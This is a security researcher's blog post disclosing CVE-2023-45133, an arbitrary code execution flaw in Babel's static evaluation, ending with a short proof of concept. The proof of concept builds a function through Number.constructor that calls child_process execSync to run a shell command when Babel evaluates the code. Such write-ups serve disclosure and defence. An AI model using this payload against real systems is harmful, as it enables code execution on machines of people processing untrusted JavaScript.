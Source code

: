 ```yaml
---
title: >-
  CVE-2023-45133: Finding an Arbitrary Code Execution Vulnerability In Babel.js
date: 2023-10-11 22:35:00
tags:
  - Javascript
  - Babel
  - Reverse Engineering
  - Exploitation
categories:
  - Exploitation
---
```


# Introduction

On October 10th, 2023, I stumbled upon an arbitrary code execution vulnerability in [Babel](https://github.com/babel/babel/), which was subsequently assigned the identifier CVE-2023-45133. In this post, I'll walk you through the journey of discovering and exploiting this intriguing flaw.

Those who use Babel for reverse engineering/code deobfuscation love using Babel because of all of the built in functionality it provides. One of the most useful features is the ability to statically evaluate expressions using `path.evaluate()` and `path.evaluateTruthy()`. I have written about this in the previous articles:

- [Constant Folding](https://steakenthusiast.github.io/2022/05/28/Deobfuscating-Javascript-via-AST-Manipulation-Constant-Folding/)

- [A Peculiar JSFuck-style Case](https://steakenthusiast.github.io/2022/06/14/Deobfuscating-Javascript-via-AST-Deobfuscating-a-Peculiar-JSFuck-style-Case/)

Wait, did I say _statically evaluate_?
# The Exploit
Before delving into the details, let's take a look at the proof of concept I came up with:
## Proof of Concept

```js
const parser = require("@babel/parser");
const traverse = require("@babel/traverse").default;

const source = `String({  toString: Number.constructor("console.log(process.mainModule.require('child_process').execSync('id').toString())")});`

const ast = parser.parse(source);

const evalVisitor = {
  Expression(path) {
    path.evaluate();
  },
};

traverse(ast, evalVisitor);
```

